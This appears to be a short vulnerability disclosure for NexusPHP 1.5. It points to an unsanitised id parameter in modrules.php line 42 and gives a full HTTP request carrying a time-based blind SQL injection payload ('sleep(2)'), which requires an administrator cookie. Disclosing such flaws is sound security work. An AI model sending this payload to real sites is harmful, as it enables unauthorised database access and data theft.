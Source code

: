 # by burpheart


Need get the administrator's identity to complete the attack.

#### Affected software: NexusPHP 1.5

#### Software Download Link: http://sourceforge.net/projects/nexusphp/
  
#### Github Repository https://github.com/xiaomlove/nexusphp

##  Vulnerability details

#### modrules.php:line 42

```	
	$res = @mysql_fetch_array(@sql_query("select * from rules where id='$id'"));
```
#### exploit:
```
GET /modrules.php?act=edit&id=1%27%20and%20sleep(2)%23 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: administrator_cookies
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

```

/modrules.php?act=edit&id=1%27%20and%20sleep(2)%23

The return will be delayed for 2 seconds  

/modrules.php?act=edit&id=1%27%20and%20sleep(0)%23

The return will be delayed for 0 seconds  
